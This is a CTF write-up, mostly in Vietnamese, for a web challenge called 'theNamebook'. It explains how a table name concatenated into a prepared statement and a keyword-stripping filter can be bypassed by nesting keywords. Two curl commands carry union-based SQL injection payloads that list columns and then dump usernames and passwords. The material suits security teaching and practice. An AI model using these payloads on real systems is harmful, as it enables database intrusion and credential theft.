## Fortnight challenge 2022: theNamebook

![warmup category](https://img.shields.io/badge/Category-web-brightgreen.svg)  
![score](https://img.shields.io/badge/Score_after_CTF-200-blue.svg)  
![author](https://img.shields.io/badge/Author-Hai%20Le%238679-blue.svg)  
![solves](https://img.shields.io/badge/Solves-12-lightgrey.svg)

### Description
You see, Faceb.. I mean Meta is now a giant, but it started small with the name 'theFacebook'. So I think I'll reach where they are now in some day. Well then, behold!!! theNamebook

### Hints
- How do you guys login to a page tho?

### Attached files
[index.php](https://github.com/compsec-hcmus/hcmus-wu/raw/main/write-up/Fortnight%20Challenge%202022/Web%20exploitation/theNamebook/index.php)

### Summary
> Union-based SQL injection + WAF cơ bản

### Detailed solution

Challenge này mô tả lại việc tạo ra 1 trang web có sử dụng SQL để truy vấn dữ liệu, và để *ngăn chặn* việc bị tấn công bằng SQLi, người viết trang web sử dụng `prepared statement` để chắc chắn là người dùng không thể thay đổi luồng hoạt động của câu query qua `id`.

Tuy nhiên, như đã đề cập, việc ghép trực tiếp input vào câu query, trong phần lớn trường hợp, vẫn là nguyên nhân để SQL injection xảy ra.

```php
$stmt = $db->prepare('SELECT id, username FROM ' . $table . ' WHERE id=:id;');
```

Lý do developer làm theo cách này là vì `prepared statement` chỉ có thể áp dụng cho phần giá trị, chứ không thể thay đổi tên bảng, tên cột, ... Vậy nên chúng ta nhìn thấy cách sử dụng prepared statement "nửa nạc nửa mỡ" như trên.

Tuy rằng người viết cũng đã thêm 1 lớp phòng thủ bằng cách replace các từ khóa có thể dùng cho SQL injection thành xâu rỗng, WAF này có thể bị dễ dàng vượt qua bằng cách chèn giữa 1 lần nữa từ khóa bị replace (`select` => `selselectect`). Sau khi replace từ `select` ở giữa, phần đầu và cuối sẽ ghép lại, tạo ra từ khóa `select` hoàn chỉnh. Vậy nên các bạn chỉ cần tạo ra các câu query để inject và áp dụng cách này cho các từ khóa bị replace.

```bash
curl -X POST --url "http://103.245.249.107:35002/" -d "table=user whewherere id=0 uniunionon selselectect 1, name frfromom pragma_table_info('user');--&id="
```

![](https://github.com/compsec-hcmus/hcmus-wu/raw/main/write-up/Fortnight%20Challenge%202022/Web%20exploitation/theNamebook/columns.png)

Bingo! Bảng `user` có thêm 1 cột `password`, khả năng cao flag sẽ nằm trong số đó

```bash
curl -X POST --url "http://103.245.249.107:35002/" -d "table=user whewherere id=0 uniunionon selselectect username, password frfromom user;--&id="
```

![](https://github.com/compsec-hcmus/hcmus-wu/raw/main/write-up/Fortnight%20Challenge%202022/Web%20exploitation/theNamebook/results.png)

### Flag
```
f0rtn1ght{1s_iT_m3_0r_pr3p4red_stAt3MenT_Is_pl4y1ng_DumB?}
```
